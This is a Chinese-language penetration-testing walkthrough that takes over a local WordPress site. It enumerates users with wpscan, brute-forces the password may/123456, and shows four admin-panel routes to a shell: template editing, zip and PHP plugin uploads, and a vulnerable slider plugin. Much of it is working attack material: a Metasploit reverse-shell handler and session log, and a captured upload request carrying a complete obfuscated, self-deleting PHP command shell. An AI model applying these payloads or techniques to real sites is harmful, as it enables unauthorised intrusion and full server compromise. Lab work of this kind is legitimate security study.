[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705136492103-8bcfbf42-404c-4a79-8b0f-f17cd656807f.png#averageHue=%23dfdfdf&clientId=uad14354d-ef7d-4&from=paste&height=836&id=u635ac550&originHeight=1672&originWidth=3078&originalType=binary&ratio=2&rotation=0&showTitle=false&size=284245&status=done&style=none&taskId=uf17d4505-1056-413b-8354-087a3dc7c73&title=&width=1539)  
使用 wpscan 进行用户枚举

```plain
-> wpscan --url http://localhost:81/ --enumerate
[i] User(s) Identified:

[+] may
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

获得用户名 may，爆破密码

```plain
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
WARNING: Your progress bar is currently at 0 out of 0 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - may / 123456
All Found
```

得到用户名密码 may/123456  
得到管理员用户密码就可以使用后台 getshell 的常用手法 下文将演示常见方法

### 方法 1、修改模板

后台 -> 外观 -> 编辑  
通过在 index.php、404.php 等模板中嵌入恶意代码进行正向或反连 shell  
嵌入 php\_reverse\_shell.php 代码  
[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928239544-9197060c-d7fb-4b21-b6de-30e21ee3b009.png#averageHue=%23e2e2e2&clientId=uc39f9627-399e-4&from=paste&height=853&id=u09e9adf9&originHeight=1706&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=488325&status=done&style=none&taskId=u435abfea-c3db-406b-859c-143b26626fd&title=&width=1547)  
使用 metasploit 等工具建立监听

```plain
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

更新 index.php 后访问 wordpress 首页即可接收到 shell

```plain
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:9999
[*] Command shell session 10 opened (192.168.0.106:9999 -> 192.168.0.106:58096) at 2024-01-22 20:54:00 +0800


Shell Banner:
Linux 2036cf3ffda3 6.5.13-orbstack-00121-ge428743e4e98 #1 SMP Wed Dec 27 10:22:46 UTC 2023 aarch64 aarch64 aarch64 GNU/Linux
 12:53:55 up  1:07,  0 users,  load average: 1.32, 1.06, 0.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

### 方法 2、zip 上传

将 php\_reverse\_shell.php 压缩为 zip 在插件安装页面上传 zip  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928820683-3560e5f2-fcf7-4542-b23e-e7868e6ee7fb.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=613&id=u97f34d8a&originHeight=1226&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=245185&status=done&style=none&taskId=u6d0bb817-7940-4980-9f3d-ea098eddbc7&title=&width=1547)  
建立监听 稍等片刻即可获得 shell[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928908230-f785138f-35b6-45f2-8e4c-e83a9b9cfd85.png#averageHue=%2336393f&clientId=uc39f9627-399e-4&from=paste&height=380&id=u36cc8d33&originHeight=760&originWidth=2350&originalType=binary&ratio=2&rotation=0&showTitle=false&size=253609&status=done&style=none&taskId=u42c88f76-4fc3-424e-8e1f-ecd741c0f65&title=&width=1175)

### 方法 3、php 上传

直接在插件安装页面上传 php\_reverse\_shell.php 然后在/wp-content/includes/中访问  
上传过程中会发生报错 但不影响文件正常上传和访问

### 方法 4、安装脆弱插件

比如安装 wp\_responsive-thumbnail-slider 1.0  
[https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php](https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php)  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705929451952-7393e2dd-f60b-473b-847e-6b5a2d54d6a1.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=610&id=u354fe16b&originHeight=1220&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=217350&status=done&style=none&taskId=ue3b1c50c-2cc4-4347-b1f2-5a2f438adc7&title=&width=1547)  
安装并启用后使用 metasploit 的 multi/http/wp\_responsive\_thumbnail\_slider\_upload 模块进行攻击  
但在使用这个模块时发现攻击不成功 打开 msfconsole 的 httptrace 功能 检查一下交互流量  
shell 上传流量 响应状态码 200 检查后发现文件上传成功

```plain
POST /wp-admin/admin.php?page=responsive_thumbnail_slider_image_management/&action=addedit HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
Content-Type: multipart/form-data; boundary=---------------------------743289811480519521793446209521
Content-Length: 2471

-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="image_name"; filename="KSXrN.php"
Content-Type: image/jpeg

<?php @unlink(__FILE__); /*<?php /**/  @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);  $BDQbE=@ini_get('disable_functions');  if(!empty($BDQbE)){  $BDQbE=preg_replace('/[, ]+/',',',$BDQbE);  $BDQbE=explode(',',$BDQbE);  $BDQbE=array_map('trim',$BDQbE);  }else{  $BDQbE=array();  }    $port=9999;   $scl='socket_create_listen';  if(is_callable($scl)&&!in_array($scl,$BDQbE)){  $sock=@$scl($port);  }else{  $sock=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);  $ret=@socket_bind($sock,0,$port);  $ret=@socket_listen($sock,5);  }  $msgsock=@socket_accept($sock);  @socket_close($sock);   while(FALSE!==@socket_select($r=array($msgsock), $w=NULL, $e=NULL, NULL))  {  $o = '';  $c=@socket_read($msgsock,2048,PHP_NORMAL_READ);  if(FALSE===$c){break;}  if(substr($c,0,3) == 'cd '){  chdir(substr($c,3,-1));  } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {  break;  }else{    if (FALSE !== stristr(PHP_OS, 'win' )) {  $c=$c." 2>&1\n";  }  $PFeofv='is_callable';  $jikigJe='in_array';    if($PFeofv('shell_exec')&&!$jikigJe('shell_exec',$BDQbE)){  $o=`$c`;  }else  if($PFeofv('exec')&&!$jikigJe('exec',$BDQbE)){  $o=array();  exec($c,$o);  $o=join(chr(10),$o).chr(10);  }else  if($PFeofv('system')&&!$jikigJe('system',$BDQbE)){  ob_start();  system($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('passthru')&&!$jikigJe('passthru',$BDQbE)){  ob_start();  passthru($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('popen')&&!$jikigJe('popen',$BDQbE)){  $fp=popen($c,'r');  $o=NULL;  if(is_resource($fp)){  while(!feof($fp)){  $o.=fread($fp,1024);  }  }  @pclose($fp);  }else  if($PFeofv('proc_open')&&!$jikigJe('proc_open',$BDQbE)){  $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);  $o=NULL;  while(!feof($pipes[1])){  $o.=fread($pipes[1],1024);  }  @proc_close($handle);  }else  {  $o=0;  }    }  @socket_write($msgsock,$o,strlen($o));  }  @socket_close($msgsock);  ?>
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="imagetitle"

KSXrN
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="btnsave"

Save Changes
-----------------------------743289811480519521793446209521--
```

接下来模块访问了/wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php

```plain
GET /wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
```

但我们到/wp-content/uploads/wp-responsive-images-thumbnail-slider/发现文件名与模块访问的文件不一致  
导致响应 404 msf 自然就没有接收到 shell  
猜测这是 wordpress 版本差异 文件的命名方式有所不同导致的问题  
在实际渗透中 可以通过插件漏洞手动上传 php\_reverse\_shell.php 然后进行访问反弹 shell
